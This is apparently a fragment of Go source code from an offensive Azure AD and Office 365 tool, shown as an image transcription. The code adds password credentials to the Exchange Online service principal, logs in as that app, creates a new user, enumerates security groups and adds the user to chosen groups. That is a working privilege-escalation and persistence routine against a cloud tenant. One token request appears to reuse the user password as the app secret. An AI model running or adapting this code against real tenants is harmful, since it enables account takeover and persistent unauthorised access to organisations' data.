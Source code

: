```go
                fmt.Println("[*] Exiting....")
                os.Exit(2)
            }else{
                fmt.Println("[*] Successfully Added PasswordCredentials To Office 365 Exchange Online App")
                fmt.Printf("[*] PasswordCredentials :=> %s : %s\n",ExchangeAppId,NewCredsToAddExchange.Value)
            }
            fmt.Printf("[*] Attempting To Login As The Office 365 Exchange Online Application...\n")
            ExchangeAppIdGlobal = SPNs.Value[x].AppID
            ExchangeAuthTokenStruct = authAsSPN("https://graph.windows.net",SPNs.Value[x].AppID,NewCredsToAddExchange.Value.(string),TenantId)

        }
    }
    if ExchangeAuthTokenStruct.AccessToken != "" && O365AuthTokenStruct.AccessToken != "" {
        fmt.Println("[*] Have Auth Tokens For Both Apps...")
    } else {
        fmt.Println("[*] Do Not Have Auth Tokens For Both Apps...Something Went Wrong Exiting...")
        os.Exit(2)
    }
    
    fmt.Println("[*] Creating User Via O365 App...")
    NewUserResult := CreateUser(O365AuthTokenStruct.AccessToken,TenantId,DirectoryName[1],*addedUserptr)
    NewUserObjId := NewUserResult.ObjectID
    fmt.Printf("[*] Successfully Created The Following User: %s@%s Pass: %s\n",*addedUserptr,DirectoryName[1],pwndpass)
    fmt.Println("[*] Using Exchange Online App To Enumerate Groups...")
    EnumGrpResult := EnumerateGroups(ExchangeAuthTokenStruct.AccessToken,TenantId)
    var GrpObjMap = make(map[string]string)
    for x :=  range EnumGrpResult.Value_Grp{
        if EnumGrpResult.Value_Grp[x].SecurityEnabled_Grp == true{
            GrpObjMap[EnumGrpResult.Value_Grp[x].DisplayName_Grp] = EnumGrpResult.Value_Grp[x].ObjectID_Grp
        }
    }
    fmt.Println(GrpObjMap)
    fmt.Println("[*] Successfully Enumerated Groups")

    
    fmt.Println("[*] Reconnecting to Azure Management Resource")
    AzureManagementAuthStruct := authAsSPN("https://graph.microsoft.com",ExchangeAppIdGlobal,pwndpass,TenantId)

    fmt.Println("[*] Unfortunately we dont have permissions to check the assigned group roles")
    for x,y := range GrpObjMap {
        fmt.Printf("Add user to this group? %s y/n or q to quit\n",x)
        var userchoice2 string    
        fmt.Scanln(&userchoice2)
        if userchoice2 == "y"{
            fmt.Printf("Attempting To User To Following Group %s:::%s\n",x,y)
            AddUserToGrp(AzureManagementAuthStruct.AccessToken,TenantId,NewUserObjId,y)
        }else if userchoice2 == "q"{
            break
        } else {
            continue
        }
    }
```
